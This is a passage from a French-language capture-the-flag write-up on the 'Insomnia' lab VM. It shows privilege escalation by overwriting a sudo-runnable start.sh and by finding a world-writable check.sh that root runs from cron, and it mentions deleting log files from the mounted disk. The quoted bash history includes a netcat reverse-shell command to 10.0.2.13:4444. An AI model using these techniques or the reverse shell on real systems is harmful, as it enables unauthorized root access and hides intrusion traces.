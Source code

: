 Avec ces infos je peux d'abord monter le VDI puis monter l'un des volumes présent à l'intérieur (ici `vol0` correspond à la partition racine) :

```bash
mkdir disks
sudo vboximg-mount --vm Insomnia -i "/home/devloop/VirtualBox VMs/Insomnia/Insomnia-disk001.vdi" --rw --root disks/
sudo mount disks/vol0 /mnt/
# faire le ménage ici
sudo umount /mnt
sudo umount disks
```

L'opération a consisté à supprimer une partie des fichiers de logs.

## Pas le temps pour les flashbacks

On reprend le fil de notre exploitation :

```bash
www-data@insomnia:/var/www/html$ cp start.sh start_backup.start
www-data@insomnia:/var/www/html$ echo bash > start.sh 
www-data@insomnia:/var/www/html$ sudo -u julia /bin/bash /var/www/html/start.sh
julia@insomnia:/var/www/html$ id
uid=1000(julia) gid=1000(julia) groups=1000(julia),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

L'utilisatrice a quelques commandes dans son historique bash. Malheureusement il s'agit plus d'un oubli de l'auteur du CTF q'un indice volontaire :

```bash
cd /var/cron
ls
nano chech.sh
export TERM=xterm
nano check.sh
echo "nc -e /bin/bash 10.0.2.13 4444" >> check.sh
exit
```

Ce fichier `check.sh` nous est accessible (et modifiable) mais comment est-il lancé ?

```bash
julia@insomnia:/var/cron$ ls -al check.sh 
-rwxrwxrwx 1 root root 153 Dec 21  2020 check.sh
julia@insomnia:/var/cron$ cat check.sh 
#!/bin/bash
status=$(systemctl is-active insomnia.service)
if [ "$status" == "active"  ]; then
   echo "OK"
else
   systemctl start  insomnia.service
fi
julia@insomnia:/var/cron$ cat /etc/systemd/system/insomnia.service 
[Service]
Type=simple
User=www-data
WorkingDirectory=/var/www/html
ExecStart=/bin/bash /var/www/html/start.sh

[Install]
WantedBy=multi-user.target
julia@insomnia:/var/cron$ tail -2  /etc/crontab 
*  *    * * *   root    /bin/bash /var/cron/check.sh
#
```
